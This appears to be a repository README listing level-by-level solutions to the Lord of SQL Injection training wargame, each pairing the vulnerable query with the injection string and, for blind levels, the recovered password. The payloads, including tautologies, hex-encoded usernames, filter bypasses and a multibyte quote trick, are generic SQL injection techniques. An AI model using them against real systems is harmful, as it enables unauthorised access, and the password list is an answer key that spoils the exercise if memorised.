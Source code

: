 # Lord-of-Sql-injection

#gremlin
#prob : select id from prob_gremlin where id='' and pw=''
#solve : ?id=' or 1=1%23

#cobolt
prob : select id from prob_cobolt where id='' and pw=md5('')
solve : ?id=' or id='admin'%23

goblin
prob : select id from prob_goblin where id='guest' and no=
solve : ?no=' or id=0x61646d696e

orc(blind)
prob : select id from prob_orc where id='admin' and pw=''
solve : ?pw=095a9852

wolfman
prob : select id from prob_wolfman where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

darkelf
prob : select id from prob_darkelf where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

orge(blind)
prob : select id from prob_orge where id='guest' and pw=''
solve : ?pw=7b751aec

troll
prob : select id from prob_troll where id='ADmin'
solve : ?pw=AdMin

vampire
prob : select id from prob_vampire where id=''
solve : ?id=adadminmin

skeleton
prob : select id from prob_skeleton where id='guest' and pw='' and 1=0
solve : ?pw=' or id='admin'%23

golem(blind)
prob : select id from prob_golem where id='guest' and pw=''
solve : ?pw=77d6290b

darknight(blind)
prob : select id from prob_darkknight where id='guest' and pw='' and no=
solve : ?pw=0b70ea1f

bugbear(blind)
prob : select id from prob_bugbear where id='guest' and pw='' and no=
solve : ?pw=52dc3991

giant
prob : select 1234 from{$_GET[shit]}prob_giant where 1
solve : ?shit=%0b,?shit=%0c

assasin 
prob : select id from prob_assassin where pw like ''
solve : ?pw=%E%D%
memo : a% , %a , %a%

zombie_assassin
prob : select id from prob_zombie_assassin where id='' and pw=''
solve : pass
memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf

succubus(pass)
nightmare(pass)

xavis(blind)
prob : select id from prob_xavis where id='admin' and pw=''
solve : ?pw=우왕굳
memo : 한글 ascii